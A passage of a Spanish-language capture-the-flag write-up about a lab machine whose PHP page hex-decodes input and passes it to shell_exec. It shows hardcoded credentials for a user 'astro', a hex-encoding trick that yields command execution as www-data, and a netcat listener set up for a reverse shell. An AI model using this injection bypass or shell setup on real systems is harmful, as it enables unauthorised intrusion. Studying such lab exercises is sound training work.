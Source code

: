 ```php
            $output = shell_exec($decoded . ' 2>&1');
        } else {
            $safeDomain = escapeshellarg($decoded);
            $output = shell_exec("nslookup $safeDomain 2>&1");
        }
    } else {
        $safeDomain = escapeshellarg($input);
        $output = shell_exec("nslookup $safeDomain 2>&1");
    }

    echo '<pre class="result">' . htmlspecialchars($output ?: 'No output returned.') . '</pre>';
    ob_end_flush();
}
?>
```

Tambien tenemos potenciales credenciales del usuario astro en el sistema, Una ves que ganemos acceso intentaremos ver si son validas en el sistema
```bash
|`# Create user astro with passwordless sudo access only for /bin/su`|
|`RUN useradd -m astro && echo "astro:iloveastro" \| chpasswd && \`|
|`echo "astro ALL=(ALL:ALL) NOPASSWD: /bin/su" > /etc/sudoers.d/astro-su && \`|
`chmod 440 /etc/sudoers.d/astro-su`
```

Ahora si ingresamos al servicio en el puerto **5000**, Realizamos **ByPass Hex Decoding**
```bash
http://192.168.100.31:5000/
```
### Ejecucion del Ataque
**Nota** en el script de php tiene esta funcion que espare en hexadecimal el input
**`@hex2bin($input)`** es una función de PHP que **convierte una cadena hexadecimal de vuelta a su forma binaria original** (es decir, la decodifica). El símbolo `@` suprime los mensajes de error.
```bash
$input = "77686f616d69"; // "whoami" en hex
$decoded = hex2bin($input); // Convierte a "whoami"
```

Ahora sabiendo esto, Nos aprovechamos para desde nuestra terminal, Convertir el comando **whoami** en **hexadecimal** para ejecutar comandos
```bash
echo -n "whoami;" | xxd -p
77686f616d693b # Output
```

Ahora desde la web pegamos el **Output** de salida
```bash
# Comandos para explotación
77686f616d693b 

# Respuesta del servidor
www-data
```
### Intrusion
Ahora que tenemos ejecucion remota de comandos, Procedemos a ponernos en escucha para ganar acceso al objetivo
```bash
nc -nlvp 443
```
